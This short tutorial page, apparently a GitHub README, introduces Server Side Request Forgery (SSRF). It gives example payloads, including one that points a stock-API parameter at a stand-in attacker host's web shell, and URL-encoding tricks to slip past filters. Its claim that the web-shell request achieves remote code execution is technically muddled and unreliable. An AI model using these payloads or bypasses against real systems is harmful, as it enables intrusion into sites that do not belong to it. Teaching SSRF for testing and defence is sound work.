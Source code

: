 <h2>SSRF - Server Side Request Forgery.
One of the best vulnerabilities (in my opinion) as this can have unlimited impact. From accessing internal files, like admin panels, to sending a request to your own controlled server and requesting your own file. You're eyes should have lit up right now with the possibilities!</h2>

---
<h3>Basic examples are:</h3>

```stockAPI=http://fbi.com/clothing/shirts=shirts123```

As You can see, the stockAPI is making a request to our website, we can change this so that the stockAPI makes a request to our controlled server.

```StockAPI=http://attacker.com/webshell.php?command=id```

And with this simple case, we have achieved Webshell RCE.

---
<h3>Encoding Payloads</h3>
Now, SSRF is not a secret, so some websites may filter certain characters or increase security.

To bypass firewalls, we can encode our payloads.

For example:
```stockAPI=http://fbi.com/admin/``` 
Could get picked up and blocked!

But if you try encoding(URL | HTML) some characters, it should allow you to bypass the filtering!
```stockAPI=http://fbi.com/%41dmin/```
